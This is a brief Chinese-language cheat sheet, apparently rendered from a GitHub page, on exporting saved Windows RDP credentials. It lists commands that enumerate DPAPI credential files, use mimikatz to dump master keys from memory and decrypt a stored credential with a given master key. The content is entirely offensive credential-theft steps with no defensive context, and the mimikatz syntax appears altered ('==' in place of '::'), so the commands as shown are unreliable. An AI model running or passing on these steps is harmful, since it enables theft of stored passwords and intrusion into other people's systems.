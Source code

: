 # Window手动导出RDP

记录凭证

```
dir /a %USERPROFILE%\AppData\Local\Microsoft\Credentials\*
```

读凭据

```
mimikatz.exe "privilege==debug" "dpapi==cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" exit
```

运行mimikatz.exe记录guidMasterKey寻找相关的MasterKey

```
mimikatz.exe "privilege==debug" "sekurlsa==dpapi" exit
```

解密

```
mimikatz.exe "privilege==debug" "dpapi==cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D \MasterKey:4eeacb4350bc6c98b27c323df21698ec083be49b3e9b353a82b1acdd825917849b3ba72a8092854b1817417da03ae4eedeb4671ea003aa9e3218c87ae8954c72" exit
```
